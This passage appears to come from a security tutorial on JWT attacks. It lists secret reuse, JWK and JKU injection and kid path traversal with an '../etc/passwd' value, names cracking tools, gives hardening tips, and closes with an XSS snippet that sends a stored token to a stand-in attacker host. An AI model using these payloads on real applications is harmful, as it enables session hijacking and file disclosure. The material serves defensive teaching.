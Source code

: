 ```mermaid
graph TD
	A[More attacks] --> B[Reusing JWT secrets]
	A --> C[Exploiting JWK]
	A --> D[Exploiting JKU]
	A --> E[Key ID `kid` Injection]
```

|**Attack**|**Description**|**Example**|
|---|---|---|
|**Reusing JWT Secrets**|If multiple apps share the same secret, a token from one app may work on another.|Use a valid JWT from one system to access another.|
|**JWK Injection**|Modifying the `jwk` header to accept an attacker's key.|Generate custom keys using OpenSSL.|
|**JKU Exploitation**|Hosting a fake key store to inject malicious verification keys.|Redirect key lookup to an attacker-controlled server.|
|**KID Injection**|Path traversal in `kid` to load sensitive files.|`"kid": "../../../../etc/passwd"`|

---

# **4. Tools and Prevention**

|**Tool**|**Function**|
|---|---|
|**jwt_tool**|Brute-force secrets, analyze tokens.|
|**Burp Suite JWT Plugin**|Automated JWT security testing.|
|**jwt-cracker**|Crack weak HS256 secrets.|
|**jwt_scan.py**|Scan and analyze JWT vulnerabilities.|

✅ **Best Practices for Secure JWT Implementation**:

1. **Use RS256 instead of HS256** for better key management.
2. **Validate JWTs against a whitelist of issuers (`iss`) and audiences (`aud`)**.
3. **Enforce short-lived tokens** (`exp` should be properly set).
4. **Do not accept unsigned (`none`) or weakly signed tokens**.
5. **Rotate secrets regularly** to reduce long-term exposure.

---

# **5. Example Exploits & Fixes**

### **Example: JWT Token Theft via XSS**

If a web application stores JWTs in `localStorage`, attackers can steal them via **Cross-Site Scripting (XSS)**:

```html
<script>
fetch('https://attacker.com/steal?jwt=' + document.localStorage.getItem('token'));
</script>
```
